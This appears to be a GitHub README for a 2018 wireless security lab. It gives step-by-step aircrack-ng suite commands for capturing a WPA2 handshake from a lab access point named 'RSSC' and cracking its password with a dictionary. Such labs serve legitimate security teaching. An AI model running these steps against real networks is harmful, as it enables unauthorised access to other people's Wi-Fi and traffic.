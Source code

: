 # RSSC2018-Wireless-Lab

## Air Monitor
Here we will walk through the process of cracking a WPA2 password.

1. The iwconfig command will show any wireless cards in the system. 
```bash
iwconfig
```
The operating system recognizes a wireless interface named wlan0.

2. Enable the wireless interface.
```bash
ifconfig wlan0 up
```

3. Force the wireless card to scan and report on all wireless networks in the area. The SSID you are trying to target for this lab is named ‘RSSC’. You need the MAC address and the channel that this AP is transmitting on.
```bash
iwlist wlan0 scanning
```

Next, we need to change the wireless card to monitoring mode. We do this by creating a monitor interface using airmon-ng. 

4. Verify airmon-ng sees your wireless card.
```bash
airmon-ng 
```

5. Change the wireless card to monitoring mode. This will allow the wireless card to examine all the packets in the air.
```bash
airmon-ng start wlan0
```

6. Run the ifconfig command to verify the monitor interface is created. 
```bash
ifconfig 
```
We can see wlan0mon was created.

7. Use airodump-ng to capture the WPA2 handshake. The attacker will have to catch someone in the act of authenticating to get a valid capture. Airodump-ng will display a valid handshake when it captures it. It will display the handshake confirmation in the upper right-hand corner of the screen. Run this command for 15 seconds and then break out of it using ‘ctrl + C’.
```bash
airodump-ng wlan0mon –bssid <mac-address> --channel <channel> –write <filename>
```
## Password Cracking
8. We will use aircrack-ng with the dictionary file to crack the password. 
```bash
aircrack-ng <filename>.cap -a 2 -w <dictionary path>
```

